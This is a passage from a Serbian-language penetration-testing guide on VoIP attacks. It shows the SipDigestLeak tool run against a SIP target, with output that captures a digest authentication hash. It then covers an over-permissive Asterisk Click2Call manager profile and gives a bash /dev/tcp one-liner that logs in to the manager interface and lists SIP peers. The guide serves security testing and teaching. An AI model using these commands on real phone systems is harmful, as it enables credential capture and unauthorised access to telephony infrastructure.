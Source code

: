 * **sipdigestleak.py** iz [**sippts**](https://github.com/Pepelux/sippts)**:** SipDigestLeak iskorišćava ovu ranjivost.

```bash
python3 sipdigestleak.py -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
[=>] Request 200 Ok

Auth=Digest username="pepelux", realm="asterisk", nonce="lcwnqoz0", uri="sip:100@10.10.0.10:56583;transport=UDP", response="31fece0d4ff6fd524c1d4c9482e99bb2", algorithm=MD5
```

### Click2Call

Click2Call omogućava **korisniku veba** (koji na primer može biti zainteresovan za proizvod) da **unese** svoj **broj telefona** kako bi bio pozvan. Zatim će biti pozvan komercijalni broj, i kada **korisnik podigne slušalicu**, biće **pozvan i povezan sa agentom**.

Uobičajeni Asterisk profil za ovo je:

```scss
[web_user]
secret = complex_password
deny = 0.0.0.0/0.0.0.0
allow = 0.0.0.0/0.0.0.0
displayconnects = yes
read = system,call,log,verbose,agent,user,config,dtmf,reporting,crd,diapla
write = system,call,agent,user,config,command,reporting,originate
```

* Prethodni profil omogućava **BILO KOJOJ IP adresi da se poveže** (ako je poznata lozinka).
* Da biste **organizovali poziv**, kao što je prethodno navedeno, **nije potrebna dozvola za čitanje** i potrebno je samo **originate** u **write**.

Sa ovim dozvolama, bilo koja IP adresa koja zna lozinku može se povezati i izvući previše informacija, kao što su:

{% code overflow="wrap" %}
```bash
# Get all the peers
exec 3<>/dev/tcp/10.10.10.10/5038 && echo -e "Action: Login\nUsername:test\nSecret:password\nEvents: off\n\nAction:Command\nCommand: sip show peers\n\nAction: logoff\n\n">&3 && cat <&3
```
{% endcode %}
